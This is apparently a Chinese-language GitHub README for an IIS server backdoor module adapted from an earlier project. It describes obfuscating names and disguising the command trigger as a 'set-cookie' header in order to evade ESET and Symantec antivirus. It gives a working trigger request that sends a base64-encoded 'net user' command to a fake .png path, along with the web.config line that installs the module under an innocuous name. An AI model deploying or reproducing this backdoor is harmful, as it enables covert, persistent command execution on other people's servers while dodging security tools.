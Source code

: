 参考WBGlIl大佬项目，删除powershell和shellcode功能，只保留cmd功能

Cookie: cmd= 改成 Cookie: set-cookie=，对函数名进行混淆

目前已绕过 eset 和 symantec 

```
GET /aspnet_client/system_web/iisstart.png HTTP/2
Host: 192.168.42.128
Cookie: set-cookie=bmV0IHVzZXI=
```
web.config 添加如下内容
```
<add name="IIS_Server" type="IIS_Server_dll.IISModule" />
```

![飞书20230223-125217](https://user-images.githubusercontent.com/72059221/220823929-5b47c98a-94b7-4e9d-90a7-f30d4527eab3.jpg)

利用测试  
![飞书20230223-115221](https://user-images.githubusercontent.com/72059221/220817771-b66c981d-df1e-46ff-8a02-ec4a62f023c5.jpg)

![飞书20230223-115225](https://user-images.githubusercontent.com/72059221/220817780-05b90dbb-fb4c-435f-92ea-a4fa5560cd82.jpg)

---分割线---

原项目地址：https://github.com/WBGlIl/IIS_backdoor

主要是实现了3个功能执行cmd命令，C#调用powershell，执行shellcode

其实文件上传也写了就是IIS_backdoor_shell项目没有添加对应的选项

因为Cookie大小限制是4096所以不能传输很大的文件，你也可以自行修改项目不使用Cookie传输数据

其实还有很多可以改进的地方不过我懒的写了暂时就这样吧

代码写的比较渣大佬误喷
